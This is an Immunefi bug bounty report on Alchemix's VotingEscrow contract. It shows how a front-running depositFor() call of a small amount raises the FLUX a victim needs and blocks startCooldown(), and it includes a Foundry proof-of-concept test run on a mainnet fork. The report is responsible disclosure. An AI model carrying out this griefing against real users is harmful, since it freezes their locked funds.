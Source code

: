 
# DoS in startCooldown() when users want start coold down before lock is expired

Submitted on May 12th 2024 at 11:24:32 UTC by @Lastc0de for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31080

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Permanent freezing of unclaimed yield
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
- Temporary freezing of funds for 12 hours

## Description
## Brief/Intro
There will be a one-epoch `cooldown` period between unlocked tokens and being able to claim them to the user’s wallet. Locked tokens can become eligible for unlocks by burning Flux tokens.
When the user wants to withdraw his/here locked tokens, he/she must start the `cooldDown` mechanism before withdrawing, otherwise he will not be able to withdraw.

Activating this process is possible in two ways:
* 1- lock period is expired
* 2- lock period is not expired

There is a vulnerability in model 2 that allows a malicious user to freeze the activation of this process for a short or long time for users who want to use the second method ( Denial-of-Service).

## Vulnerability Details
* Vulnerable contract is `VotingEscrow.sol`:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

* Vulnerable function is `startCooldown()` :
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L778C1-L804C6

~~~
    function startCooldown(uint256 _tokenId) external {
//...

        locked[_tokenId].cooldown = block.timestamp + WEEK;

        // If lock is not expired, cooldown can only be started by burning FLUX
        if (block.timestamp < _locked.end) {
            // Amount of FLUX required to ragequit
            uint256 fluxToRagequit = amountToRagequit(_tokenId); // @AUDIT-1

            require(IFluxToken(FLUX).balanceOf(msg.sender) >= fluxToRagequit, "insufficient FLUX balance"); // @AUDIT-2

            IFluxToken(FLUX).burnFrom(msg.sender, fluxToRagequit);

            emit Ragequit(msg.sender, _tokenId, block.timestamp);
        }

        emit CooldownStarted(msg.sender, _tokenId, _locked.cooldown);
    }
~~~

When a user want withdraw his/here locked amounts before do that should start coold down process.
Above we can see the function that activates this process.
When a user  who wish to unlock their veALCX early, should burn Flux Tokens this means that should buy Flux Token of other users

## Deep dive

* AUDIT-1
For this, the `VotingEscrow.sol` first calculates Amount of FLUX required to `ragequit` by calling the `amountToRagequit()` function:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L345C1-L356C6
~~~
    /// @inheritdoc IVotingEscrow
    function amountToRagequit(uint256 _tokenId) public view returns (uint256) {
        // amount of flux earned in one epoch
        uint256 oneEpochFlux = claimableFlux(_tokenId); // @AUDIT-1-A

//..
    }

~~~
* AUDIT-1-A
In the first line of this function, the amount of flux earned in one epoch is obtained by calling the `claimableFlux` function:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L377C1-L385C6
~~~
    function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }

        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS; // @AUDIT-1-A-a
    }
~~~
* AUDIT-1-A-a
This line calculate and return Amount of flux claimable is <fluxPerVeALCX> percent of the balance
* as you can see this function calculate returned value by percent of the balance so by deposit  for a `tokenId` can manipulate this value.


We can do this by calling the `depositFor()` function:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L667C1-L678C1

~~~
    function depositFor(uint256 _tokenId, uint256 _value) external nonreentrant {
//...
    }

~~~


## but what is the problem?

So we go to the beginning of the report to see `AUDIT-2`:

* AUDIT-2 : `require(IFluxToken(FLUX).balanceOf(msg.sender) >= fluxToRagequit, "insufficient FLUX balance");`

If the balance of the  Flux Token for user is less than the calculated value meaning `fluxToRagequit`, the user cannot call this function for a while, so the user must increase the balance of Flux tokens in his wallet, and this is only possible by buying tokens from other users.

## Secnario

For example, Bob wants to withdraw his tokens before the lock time done.

1- Bob knows for do this should buy 5 Flux Token

2- Bob buyed 5 Flux Token

3- Alex knows Bob Want withdraw his locked tokens (Ex:front-running)

4- Alex before Bob make call depositFor() - for Bob tokenId with small amount

5- Bob cant start coold down because he does not have enough tokens for this

6- Bob should buy more Flux Token

7- A malicious user can do this for a long time and prevent the withdrawal of other users' tokens

## Impact Details
Attacker can Freeze this function for users so users for short -or long time cant withdraw his/here locked tokens

## References

https://alchemixfi.medium.com/vealcx-update-272e8900ac5a



## Proof of Concept
1- Add this function in `VotingEscrow.t.sol` file :

~~~
    function test_AmountToRagequit_Fuzzing() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, THREE_WEEKS, false);

        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId);

        // Log regequitAmount
        console.log("#BEFORE - How much `ragequitAmount` need ? %d", ragequitAmount);

        // Mint needed Ragequit and withdraw token
        hevm.prank(address(veALCX));
        flux.mint(admin, ragequitAmount);

        // Approve Flux token
        hevm.prank(admin);
        flux.approve(address(veALCX), ragequitAmount);


        /* Maliciouse User call `depositFor()` function for tokenId with small amount
            1- Mint bpt token for this Maliciouse contract
            2- call depositFor() , for tokenId
        */
        deal(bpt, address(this), TOKEN_1);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        veALCX.depositFor(tokenId, 1e7); // Deposit small amount for user - `tokenId`

        // Log regequitAmount
        uint256 ragequitAmount_AFTER = veALCX.amountToRagequit(tokenId);
        console.log("#AFTER - How much `ragequitAmount` need ? %d", ragequitAmount_AFTER);

        // check `ragequitAmount` and `ragequitAmount_AFTER` is equal or not
        assertEq(ragequitAmount,ragequitAmount_AFTER,"`ragequitAmount` before and after not equal because:");

        hevm.expectRevert("startCooldown() TX reverted because : `ragequitAmount` increased by Maliciouse user");
        hevm.prank(admin);
        veALCX.startCooldown(tokenId);
    }
~~~

2- Runing test
~~~
forge test --match-test "test_AmountToRagequit_Fuzzing" --fork-url https://eth-mainnet.public.blastapi.io -vvvv
~~~